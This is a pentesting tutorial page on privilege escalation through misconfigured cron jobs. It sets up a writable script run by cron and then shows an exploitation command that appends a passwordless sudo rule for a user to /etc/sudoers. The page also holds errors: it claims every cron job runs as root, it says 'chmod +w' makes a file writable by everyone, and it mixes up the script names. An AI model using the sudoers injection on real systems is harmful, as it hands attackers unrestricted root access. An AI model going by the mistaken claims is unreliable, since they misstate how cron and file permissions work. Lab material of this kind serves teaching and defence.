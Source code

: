 ```yaml
---
title: Misconfigured CRON Jobs
layout: default
parent: Linux Vulnerabilities
grand_parent: Pentesting
nav_order: 3
---
```


# Misconfigured CRON Jobs

## Introduction

Cron jobs in Linux function similarly to scheduled tasks in Windows, allowing users to schedule the execution of scripts or programs at specific times. During the execution of a cron job, the associated script or program runs with root privileges.

However, if the permissions of the script are misconfigured—for example, if the script is modifiable by any user—an attacker could potentially modify the script. In such a scenario, the attacker can introduce malicious instructions, leading to the execution of unauthorized tasks with root permissions whenever the scheduled cron job runs.

## Step-by-Step Guide

### Setup

#### 1. Create the Script

Create your script using a text editor. For example, let's call it `myscript.sh`. Make sure the script has execution permissions.

```bash
touch evil.sh
chmod +x evil.sh
```

#### 2. Edit the Script

Open `evil.sh` with a text editor and add the commands or actions you want the script to perform.

```bash
#!/bin/bash
# Your script commands here
```

#### 3. Modify Permissions

To make the script writable by everyone, use the `chmod` command.

```bash
chmod +w evil.sh
```

**!!!** This is where the vulnerability is introduced. Anyone can edit the cron script to execute additional commands once the cron jobs are launched as root.

#### 4. Set up the Cron Job

Open your crontab file using the following command:

```bash
crontab -e
```

For example, add the following line to execute the script every day at 9 am:

```bash
0 9 * * * /path/to/evil.sh
```

Here is the crontab syntax - each line specifies a command to be run and the time at which it should run:

```
(1)(2)(3)(4)(5) <command to be executed>
    -(1) Minute (0 - 59)
    -(2) Hour (0 - 23)
    -(3) Day (1 - 31)
    -(4) Month (1 - 12)
    -(5) Weekday (0 - 7) (Sunday is 0 or 7, Monday is 1...)

e.g. 0 9 * * * /path/to/evil.sh
```

Make sure to replace `/path/to/myscript.sh` with the actual path to your script.

#### 5. Save and Exit

Save and exit the crontab file.

- For nano, press `Ctrl + X`, then press `Y` to confirm, and press `Enter`.
- For vim, press `Esc`, then type `:wq`, and press `Enter`.

Now, your cron job is set up to run the script at your chosen time, and the script is writable by everyone.

### Exploitation

Since the script is modifiable by everyone, anyone can add malicious commands on the script which then be executed once the cron job runs.

As discussed, since cron jobs are launched as root, any commands will be lauched as root.

For example, attackers can grant themselves higher privileges by adding themselves as a sudoer (/etc/sudoers) on the `evil.sh` script.

```bash
echo 'notroot ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers
```

## Video Demonstration

[<img src="https://img.youtube.com/vi/RRPRgQd2Krs/hqdefault.jpg"
/>](https://www.youtube.com/embed/RRPRgQd2Krs)

## Reference
https://materials.rangeforce.com/tutorial/2020/04/17/Cron-Privilege-Escalation/
